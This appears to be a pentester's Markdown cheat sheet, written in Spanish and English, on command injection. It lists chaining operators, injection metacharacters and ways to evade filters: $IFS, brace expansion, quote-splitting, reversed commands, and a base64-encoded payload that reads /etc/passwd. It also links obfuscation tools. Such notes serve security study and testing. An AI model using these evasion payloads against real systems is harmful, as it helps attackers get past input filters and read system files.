 # Command Injection

## Operators
- AND: `&&`
- OR: `||`
- newline: `;` or `\n`

## Injections

| Tipo de Inyección                       | Operadores                         |
|-----------------------------------------|------------------------------------|
| SQL Injection                           | ' , ; -- /* */                     |
| Command Injection                       | ; &&                               |
| LDAP Injection                          | * ( ) & |                          |
| XPath Injection                         | ' or and not substring concat count|
| OS Command Injection                    | ; & |                              |
| Code Injection                          | ' ; -- /* */ $() ${} #{} %{} ^     |
| Directory Traversal/File Path Traversal | ../ ..\\ %00                       |
| Object Injection                        | ; & |                              |
| XQuery Injection                        | ' ; -- /* */                       |
| Shellcode Injection                     | \x \u %u %n                       |
| Header Injection                        | \n \r\n \t %0d %0a %09             |


## Filter evasions for command injection
- Bypass blacklisted operators: encodealo con URL encoding `%0a`
    - Usar tabs: `%09`
    - Usar espacios: `%20`
    - Usar $IFS: estos son los Internal Field Separators de bash, por defecto son espacios, tabs y newlines. Se pueden cambiar con `IFS=` y luego se puede usar `$IFS` para separar comandos.
    - Usar llaves `{}`: `{command}`
      - Podemos reemplazar los espacios con `${IFS}` y las barras `/` con `${PATH:0:1}` y el punto y coma con `${LS_COLORS:10:1}`
- Correr caracteres a la derecha: `echo $(tr '!-}' '"-~'<<<[)` esto nos da los caracteres ASCII que podemos usar.
- Poner comillas al comando: `w'h'o'am'i`
- Comando reverseado:
    - `echo 'whoami' | rev`
    - $(rev<<<'imaohw')

### Base64 encoding command injection
- `echo -n 'cat /etc/passwd | grep 33' | base64`
- `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

#### Tools
- [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator)
- [DOSfuscator](https://github.com/danielbohannon/Invoke-DOSfuscation)